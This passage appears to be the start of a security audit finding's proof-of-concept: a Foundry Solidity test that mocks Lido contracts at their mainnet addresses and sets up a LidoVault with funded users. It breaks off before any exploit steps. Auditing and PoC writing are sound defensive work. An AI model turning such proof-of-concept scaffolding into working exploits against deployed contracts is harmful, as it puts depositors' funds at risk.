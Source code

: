 ### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "@openzeppelin/contracts/utils/math/Math.sol";

import {Test, console2} from "forge-std/Test.sol";

import {VaultFactory} from "src/VaultFactory.sol";
import {LidoVault} from "src/LidoVault.sol";
import {ILido} from "src/interfaces/ILido.sol";
import {MockLido} from "src/mocks/MockLido.sol";
import {MockLidoWithdrawalQueue} from "src/mocks/MockLidoWithdrawalQueue.sol";

contract PoC is Test {
    using Math for uint256;

    address payable constant LIDO = payable(0xae7ab96520DE3A18E5e111B5EaAb095312D7fE84);
    address payable constant LIDO_WITHDRAWAL_QUEUE = payable(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

    VaultFactory vf;
    LidoVault lv;

    address fixedUser = makeAddr("fixedUser");
    address variableUser1 = makeAddr("variableUser1");
    address variableUser2 = makeAddr("variableUser2");
    address protocolFeeReceiver = makeAddr("protocolFeeReceiver");

    uint256 fixedSideCapacity = 1 ether;
    uint256 variableSideCapacity = 1 ether;
    uint256 duration = 7 days;

    function setUp() public {
        // Deploy the Lido mocks on the respective addresses
        deployCodeTo("MockLido", LIDO);
        deployCodeTo("MockLidoWithdrawalQueue", LIDO_WITHDRAWAL_QUEUE);

        MockLidoWithdrawalQueue(LIDO_WITHDRAWAL_QUEUE).initialize(LIDO);

        deal(LIDO_WITHDRAWAL_QUEUE, 100 ether);

        // Deploy the vault factory
        vm.prank(protocolFeeReceiver);
        vf = new VaultFactory(100, 100);

        uint256 vaultId = vf.nextVaultId();

        vf.createVault(fixedSideCapacity, duration, variableSideCapacity);
        (, address addr) = vf.vaultInfo(vaultId);

        lv = LidoVault(payable(addr));

        deal(fixedUser, 10 ether);
        deal(variableUser1, 10 ether);
        deal(variableUser2, 10 ether);
    }

    function test2() public {
        uint256 protocolStartingBalance = address(lv).balance;
        // Fixed side deposit
```